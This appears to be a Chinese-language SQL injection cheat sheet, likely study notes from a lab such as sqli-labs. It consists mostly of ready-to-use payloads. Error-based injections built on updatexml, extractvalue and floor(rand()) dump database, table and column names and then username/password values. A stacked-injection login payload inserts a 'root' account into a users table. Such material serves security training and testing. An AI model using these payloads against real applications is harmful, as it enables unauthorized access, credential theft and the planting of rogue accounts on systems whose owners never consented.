 ```
updatexml(Xml_document,Xpathstring,new_value)
    Xml_document：目标文档
    Xpathstring：路径
    new_value：更新的值

爆数据库名：
username=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
爆数据库表名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ),0x7e),1) --+
爆字段名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+
爆数据值：
username=1' and updatexml(1,substring(concat(0x7e,(select group_concat(username,0x3a,password,0x3a) from test.users),0x7e),32,64),1) --+
```



extractvalue：

```
extractvalue(Xml_document,XMLstring)
    Xml_document：目标文档
    Xpathstring：XML路径
爆数据库名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select database())))) --+
爆数据库表名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='test')))) --+
爆字段名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'))))--+
爆数据值：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(id,0x3a,username,0x3a,password) from security.users)))) --+
```



floor：

```
爆数据名：username=1' and (select 1 from  (select count(*),concat(database(),floor(rand(0)*2))x from  information_schema.tables group by x)a) --+
```



### 堆叠注入

多条SQL语句一起执行，每条语句中间用;隔开---

如登录页面：

```
username：aaa
password:bbb';insert into users(id,username,password) values(60,'root','root')#
```
